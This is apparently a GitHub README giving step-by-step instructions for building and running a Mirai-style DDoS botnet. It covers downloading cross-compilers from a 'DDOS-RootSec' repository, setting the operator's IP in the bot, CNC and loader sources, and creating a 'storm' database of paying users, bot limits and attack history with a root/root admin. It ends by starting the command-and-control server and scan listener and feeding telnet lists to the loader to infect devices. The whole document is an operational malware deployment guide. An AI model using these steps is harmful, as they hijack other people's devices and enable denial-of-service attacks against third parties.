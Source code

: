 ### Ubuntu and Debian Tutorial

#### Step 1: System Update and Development Tools Installation
1. **Update the system:**
   ```bash
   sudo apt update && sudo apt upgrade -y
   ```
2. **Install development tools and necessary packages:**
   ```bash
   sudo apt install build-essential libgmp-dev screen wget bzip2 gcc nano g++ sudo git libc6-dev apache2 xinetd tftpd tftp gcc-multilib -y
   ```

#### Step 2: MySQL Installation
1. **Download and install MySQL:**
   ```bash
   wget https://dev.mysql.com/get/mysql-apt-config_0.8.22-1_all.deb
   sudo dpkg -i mysql-apt-config_0.8.22-1_all.deb
   sudo apt update
   sudo apt install mysql-server -y
   ```
2. **Start and enable MySQL service:**
   ```bash
   sudo systemctl start mysql
   sudo systemctl enable mysql
   ```

#### Step 3: Download and Extract Cross Compilers
1. **Create directory for cross-compilers:**
   ```bash
   sudo mkdir /etc/xcompile
   cd /etc/xcompile
   ```
2. **Download cross-compilers:**
   ```bash
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-i586.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-i686.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-m68k.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-mips.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-mipsel.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-powerpc.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-sh4.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-sparc.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-armv4l.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-armv5l.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-armv6l.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-armv7l.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install.tar.gz
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-powerpc-440fp.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-x86_64.tar.bz2
    wget https://github.com/R00tS3c/DDOS-RootSec/raw/master/uclib-cross-compilers/cross-compiler-i486.tar.gz

   ```
3. **Extract the compilers:**
   ```bash
    tar -jxf cross-compiler-i586.tar.bz2
    tar -jxf cross-compiler-m68k.tar.bz2
    tar -jxf cross-compiler-mips.tar.bz2
    tar -jxf cross-compiler-mipsel.tar.bz2
    tar -jxf cross-compiler-powerpc.tar.bz2
    tar -jxf cross-compiler-sh4.tar.bz2
    tar -jxf cross-compiler-i586.tar.bz2
    tar -jxf cross-compiler-i686.tar.bz2
    tar -jxf cross-compiler-sparc.tar.bz2
    tar -jxf cross-compiler-armv4l.tar.bz2
    tar -jxf cross-compiler-armv5l.tar.bz2
    tar -jxf cross-compiler-armv6l.tar.bz2
    tar -jxf cross-compiler-armv7l.tar.bz2
    tar -vxf arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install.tar.gz
    tar -jxf cross-compiler-powerpc-440fp.tar.bz2
    tar -jxf cross-compiler-x86_64.tar.bz2
    tar -xvf cross-compiler-i486.tar.gz
   ```
4. **Rename directories:**
   ```bash
    mv cross-compiler-i486 i486
    mv cross-compiler-i586 i586
    mv cross-compiler-i686 i686
    mv cross-compiler-m68k m68k
    mv cross-compiler-mips mips
    mv cross-compiler-mipsel mipsel
    mv cross-compiler-powerpc powerpc
    mv cross-compiler-sh4 sh4
    mv cross-compiler-sparc sparc
    mv cross-compiler-armv4l armv4l
    mv cross-compiler-armv5l armv5l
    mv cross-compiler-armv6l armv6l
    mv cross-compiler-armv7l armv7l
    mv arc_gnu_2017.09_prebuilt_uclibc_le_arc700_linux_install arc
    mv cross-compiler-powerpc-440fp powerpc-440fp
    mv cross-compiler-x86_64 x86_64
   ```
5. **Clean up tar files:**
   ```bash
   rm -rf *.tar.bz2
   cd ~/
   ```

#### Step 4: Setting Up Server IP
- **Modify the following files with your server IP:**
  - `bot/includes.h`
  - `cnc/main.go`
  - `dlr/main.c`
  - `loader/src/main.c`
  - `scanListen`

#### Step 5: Database Setup
1. **Start MySQL service:**
   ```bash
   sudo service mysql start
   ```
2. **Secure MySQL installation:**
   ```bash
   sudo mysql_secure_installation
   ```
3. **Login to MySQL:**
   ```bash
   mysql -u root -p
   ```
4. **Create the database and tables:**
   ```sql
   CREATE DATABASE storm;
   USE storm;
   CREATE TABLE `history` (
     `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
     `user_id` int(10) unsigned NOT NULL,
     `time_sent` int(10) unsigned NOT NULL,
     `duration` int(10) unsigned NOT NULL,
     `command` text NOT NULL,
     `max_bots` int(11) DEFAULT '-1',
     PRIMARY KEY (`id`),
     KEY `user_id` (`user_id`)
   );
   CREATE TABLE `users` (
     `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
     `username` varchar(32) NOT NULL,
     `password` varchar(32) NOT NULL,
     `duration_limit` int(10) unsigned DEFAULT NULL,
     `cooldown` int(10) unsigned NOT NULL,
     `wrc` int(10) unsigned DEFAULT NULL,
     `last_paid` int(10) unsigned NOT NULL,
     `max_bots` int(11) DEFAULT '-1',
     `admin` int(10) unsigned DEFAULT '0',
     `intvl` int(10) unsigned DEFAULT '30',
     `api_key` text,
     PRIMARY KEY (`id`),
     KEY `username` (`username`)
   );
   CREATE TABLE `whitelist` (
     `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
     `prefix` varchar(16) DEFAULT NULL,
     `netmask` tinyint(3) unsigned DEFAULT NULL,
     PRIMARY KEY (`id`),
     KEY `prefix` (`prefix`)
   );
   INSERT INTO users VALUES (NULL, 'root', 'root', 0, 0, 0, 0, -1, 1, 30, '');
   EXIT;
   ```

#### Step 6: Compile and Run
1. **Set MySQL password in the `main.go` of the CNC.**
2. **Change permissions and build:**
   ```bash
   cd ~/
   chmod 0777 * -R
   sh build.sh YOUR_IP
   python payload.py # If applicable
   ```
3. **Start CNC and ScanListen:**
   ```bash
   screen ./cnc
   screen ./scanListen
   ```

4. **Load telnet lists:**
   ```bash
   cat list.txt | ./loader
   ```
